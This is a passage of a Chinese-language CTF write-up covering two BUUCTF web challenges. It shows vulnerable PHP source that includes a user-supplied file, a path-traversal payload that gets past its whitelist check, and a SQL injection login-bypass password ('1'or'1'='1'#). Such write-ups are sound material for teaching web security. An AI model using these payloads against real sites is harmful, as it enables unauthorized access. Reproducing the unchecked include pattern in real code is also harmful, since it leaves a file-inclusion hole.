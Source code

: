 ```php
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 
```

先看传值的部分,if里进行了&&运算，即要保证传入的file非空，is_string，以及经过checkFile的检测同时为真才能实现文件包含。

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
```

再看类,直接将过程写在源码里方便看。也就是说我们的payload中必须有hint.php?或source.php?且位置必须在payload的前面才能绕过检测,由此得payload

```
hint.php?
```

两段综合起来

```
?file=hint.php?../../../../../ffffllllaaaagggg
```

## [极客大挑战 2019]EasySQL

考察点:sql注入，万能密码

payload

```
用户名:admin
密码:1'or'1'='1'#
```

登录成功获得flag

![1626069081896](buuweb_page1.assets/1626069081896.png)

